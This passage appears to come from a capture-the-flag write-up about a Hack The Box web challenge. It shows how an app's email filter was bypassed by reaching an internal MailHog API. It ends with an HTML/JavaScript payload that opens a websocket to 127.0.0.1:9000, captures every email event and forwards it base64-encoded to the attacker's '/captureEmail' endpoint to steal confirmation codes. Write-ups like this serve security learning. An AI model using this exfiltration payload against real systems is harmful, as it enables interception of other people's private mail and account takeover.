 However, the `/email` filters all emails that are not sent to `test@email.htb`. If we register a user using `@apexservive.htb`, we won't be able to view the email with the confirmation code.

`./email-app/routes/index.js`
```javascript
router.get('/email/', async (req, res) => {
    const result = await mailhog.messages(0, 10)

    mails = []

    for (let item of result.items) {
        if (item.to == 'test@email.htb') {
            mails.push(item);
        }
    }

    return res.render('home.html', {result: mails});
});
```

The email server is a Mailhog. Analyzing the [source code](https://github.com/mailhog/MailHog-Server), we can identify an endpoint called `/api/v2/websocket`. This endpoint allows us to establish a websocket connection and register as a listener of Mailhog. So, every time an email is sent to Mailhog, it will send to all listeners.

Mailhog API is running on port 9000, which is not exposed.
According to `./config/supervisord.conf
```conf
[program:mailhog]
command=/MailHog_linux_amd64 -api-bind-addr 127.0.0.1:9000 -ui-bind-addr 127.0.0.1:9000  -maildir-path /var/mail/ -storage maildir
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

The following script will use the `/api/v2/websocket` endpoint to establish a websocket connection, monitor, and capture all events sent to the listeners, forwarding them to our server.
```html
<html>
    <head>
    </head>
    <body>
        <script>
            function sendMessage(message) {
                fetch('/captureEmail?data=' + btoa(message))
            }
            
            const websocket = new WebSocket("ws://127.0.0.1:9000/api/v2/websocket");
            websocket.onmessage = function(event) {
                sendMessage(event.data);
            };

            websocket.onclose = function(event) {
                sendMessage('close');
            };
        </script>
    </body>
</html>
```
